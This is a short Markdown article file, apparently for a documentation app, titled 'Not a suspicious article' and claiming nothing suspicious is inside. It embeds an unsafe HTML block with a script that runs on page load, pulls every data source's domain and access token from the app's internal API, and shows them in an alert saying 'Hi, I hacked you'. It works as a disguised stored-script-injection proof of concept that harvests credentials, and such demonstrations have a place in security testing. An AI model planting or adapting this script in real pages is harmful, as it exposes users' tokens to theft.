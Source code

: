 ```yaml
---
order: 1
title: Не подозрительная статья
---
```


Вообще ничего подозрительного

[html:unsafe]

<div>123</div>
<script>
// const ctx = await window.app.contextFactory.fromBrowser();
window.app.contextFactory.fromBrowser().then((ctx)=>{
    const workspace = window.app.wm.current()
	const rp = window.app.rp;
    const sourceDatas = rp.getSourceDatas(ctx);
    
    alert(`Привет, я взломал тебя:\n\n${sourceDatas.map(d=>d.domain + " " + d.token).join("\n")}`)
	
})

    </script>

[/html]


